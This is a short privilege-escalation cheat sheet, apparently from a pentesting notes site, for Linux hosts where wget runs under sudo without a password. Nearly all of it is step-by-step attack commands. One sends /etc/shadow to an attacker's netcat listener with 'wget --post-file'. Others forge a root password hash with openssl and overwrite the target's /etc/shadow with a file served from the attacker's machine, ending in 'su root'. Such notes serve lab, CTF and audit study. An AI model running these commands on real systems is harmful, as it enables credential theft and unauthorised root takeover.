 # Sudo Wget Privilege Escalation#

The "sudo wget" command may be vulnerable to privilege escalation (PrivEsc).

```
Investigation
sudo -l


(root) NOPASSWD: /usr/bin/wget
If we can execute "wget" as root, we may be able to escalate privileges.
```

## Modify /etc/shadow

Get "/etc/shadow" and generate a new hash passwd, then set it to the shadow file, next upload it.
That changes the root password.

### 1. Get the Content of /etc/shadow

To see the content of /etc/shadow, we can use netcat listener.
So First, start a listener in local machine.
```
nc -lvnp 4444
```
In target machine, display the contents of the "/etc/shadow" to the local machine using the following command.
```
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444
```
We should see the content in our local machine via netcat listener.
Copy the content.

### 2. Create a New Shadow File

We create a new shadow file in local. The shadow file will be stored into the target /etc/shadow later.
```
nano shadow.txt
```
In the editor paste the content of /etc/shadow which we've copied in the previous section.

### 3. Create a New Root User Password and Add to Shadow File
Generate a new hash password for a new root user in local machine.
```
 -6: SHA512
openssl passwd -6 -salt 'salt' 'password'
```
Copy the generated password and paste it at the password of the root user into the "shadow.txt".
As a result, the contents of the "shadow.txt" should look like this:
```
root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::
```

### 4. Transfer the Content of the Shadow File

To put the shadow.txt into the target machine, start web server for hosting this file.
```
python3 -m http.server 8000
```
Download this file into the /etc/shadow in remote machine. To do that, we need to run it as root.
```
sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow 
```
Finally, you can switch to the root user with the password we've created.
```
su root
```
